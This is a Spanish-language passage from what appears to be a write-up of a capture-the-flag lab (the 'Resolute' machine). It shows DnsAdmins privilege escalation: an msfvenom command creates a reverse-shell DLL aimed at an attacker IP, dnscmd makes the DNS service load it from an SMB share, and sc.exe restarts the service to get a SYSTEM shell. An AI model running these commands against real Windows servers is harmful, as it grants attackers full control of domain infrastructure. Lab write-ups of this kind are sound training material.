 Utilizando [LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)

La idea es establecer un nuevo archivo de configuración para el servicio `DnsAdmins` a través de una nueva `.dll` la cual va a ejecutar desde el recurso compartido de la máquina atacante

Creando payload con `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f dll -o pwned.dll
```

En nuestra máquina atacante deberemos estar compartiendo el archivo `pwned.dll` creando un recurso compartido a través de `impacket-smbserver` y en escucha a través de `nc` para recibir la reverse Shell

En la máquina víctima procedemos a realizar:

```bash
dnscmd.exe /config /serverlevelplugindll \\10.10.14.11\smbFolder\pwned.dll
```

![Untitled](/assets/img/Resolute/Pasted image 20240319143104.png)

Se procede a parar el servicio y a iniciarlo nuevamente, tal vez este procedimiento haya que correrlo varias veces hasta obtener la consola en la máquina atacante

```bash
sc.exe start dns #start service
sc.exe stop dns  #stop service
```

Obteniendo:

![Untitled](/assets/img/Resolute/Pasted image 20240319143413.png)

Se habrá ganado una consola con privilegios de `nt authority\system`

![Untitled](/assets/img/Resolute/Pasted image 20240319143459.png)
